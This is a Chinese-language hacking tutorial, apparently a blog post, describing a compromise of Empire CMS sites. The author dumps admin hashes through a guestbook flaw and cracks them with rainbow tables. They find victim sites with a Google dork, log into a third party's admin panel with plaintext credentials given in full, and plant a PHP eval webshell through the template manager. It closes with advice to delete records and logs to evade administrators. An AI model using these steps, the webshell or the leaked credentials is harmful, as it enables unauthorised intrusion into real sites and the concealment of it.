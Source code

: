 填好后如图2

<img id="" src="http://m3.img.libdd.com/farm4/40/99E412165529C0A281C319BA4C4E3128_200_200.GIF" />

提交后就能看到爆出来的用户名、密码MD5、还有rnd值了，如图3。

<img id="" src="http://m3.img.libdd.com/farm4/229/0B31C23864828622433C60045C7E10E5_200_200.GIF" />

wm_chief就是开发帝国CMS的程序员。因为提交了好几遍，在后台又删不掉，所以有多条记录。破解出来密码明文就可以登录后台了，不过官方演示站点后台并没有数据库操作权限，凡是涉及到数据库的操作就会提示：

在线演示仅开放观看权限，与数据库相关操作已被管理员禁止!  
如果您的浏览器没有自动跳转，请点击这里

而 且这个MD5是在线查询查不出来的，明文是用MD5的彩虹表破解出来的，后面会附图。这个后台就是只能让你看看，顺便体验一下其强大的功能（官方也提供的 演示管理员用户名和密码均为admin，也可以登录，不过都是操作不了的），拿这个密码去社工一下管理员，也没有什么意外的收获，其博客、论坛、邮箱、官 方站点FTP、官方站点3389等均无法进入，所以官方是搞不到Webshell了。  
三、替补

官方进不去就找个替罪羊吧，Google以关键字“inurl:e/tool/gbook/?bid=1”搜索，搜出来的站点99%都是用帝国CMS的。随便找了一个，测试证明，漏洞存在，如图4。

<img id="" src="http://m2.img.libdd.com/farm4/168/F7DF2447B5F32E57ADE7FF69D2E1D3A8_200_200.GIF" />

可恨的是这个MD5值也是无法在线查询出来的，又得开动彩虹表跑跑咯，把刚才官方的那个MD5也一起跑了吧，出去吃完饭回来，结果就出来了，如图5。

<img id="" src="http://m1.img.libdd.com/farm4/151/BDAD499A92E4452841E0D43155FBFB97_200_200.GIF" />

顺 便啰嗦一下，如果有志于网络安全事业的发展，彩虹表还是必不可少的。什么是彩虹表呢？就是一个庞大的、针对各种可能的字母组合预先计算好的哈希值的集合， 不一定是针对MD5算法的，各种算法的都有，有了它可以快速的破解各类密码。越是复杂的密码，需要的彩虹表就越大，现在主流的彩虹表都是100G以上。

该进后台了，后台地址默认为e/admin/。用户名：joycar，密码：zuxywz119，顺便进入后台，如图6。

<img id="" src="http://m1.img.libdd.com/farm5/218/4B042B1E00CDEB8426ED20A3009ABCDA_200_200.GIF" />

进 了后台应该怎么样才能拿到Webshell呢？添加上传后缀，我试了下，不可行。网上搜了一下相关资料，原来在模板管理那里有猫腻哦。进入后台-> 模板管理->自定义页面->增加自定义页面。页面名称随便填，文件名也得取一个，文件名处可以填指定路径，分类不必理会，页面内容处写入如下 代码：

<?php eval($_POST[cmd]);?>

一般的PHP一句话马的代码 是<?php eval($_POST[cmd]);?>，其中cmd是密码。但是这里一定要按上面要求的前后都要加上，不加的话就不会成功，非常重要，务必记 住！然后点击提交，再返回到管理自定义页面，点击刚才起的页面名称，直接跳转至e/admin/template/hackest.php，无法找到该 页，路径不对嘛，当然找不到了，改成e/admin/hackest.php，再访问，一片空白，心中窃喜，有戏了……如图7、图8。

<img id="" src="http://m2.img.libdd.com/farm5/244/D8F05F1C03C14E0AD6E9CA6751E3C2F4_200_200.GIF" />

<img id="" src="http://m3.img.libdd.com/farm4/36/884A6F5B1D971A7B8A4A144838C7B424_200_200.GIF" />

再用lanker微型PHP+ASP管理器1.0双用版连接一句话，提交下环境变量看看，如图9。

<img id="" src="http://m3.img.libdd.com/farm5/30/B481D541B54DEA6915330B1D3366F61E_200_200.GIF" />

再上传一个PHP大马就大功告成了，是Linux系统的，发行版是Red Hat Enterprise Linux AS release 4，有溢出保护，提不了权咯，如图10。

<img id="" src="http://m2.img.libdd.com/farm5/237/D885D5DAA1606587AA284DF2697B24ED_200_200.GIF" />

最 后千万记得把刚才爆用户名和密码的那条留言删除，再把你添加的自定义页面也删除，后台日志也处理下。好多人都不知道什么叫清理日志，其实就是尽可能地把关 于你的操作的相关记录删除。比如你登录了3389，系统日志会记录，比如你登录了FTP，应用程序日志也会记录，比如你对这个网站做了注入攻击，IIS或 者其他WEB应用程序也会记录……技术过硬的管理员能从这些日志里分析出你的攻击方法，攻击来源等细节，安全工作一定要做足，万万马虎不得。
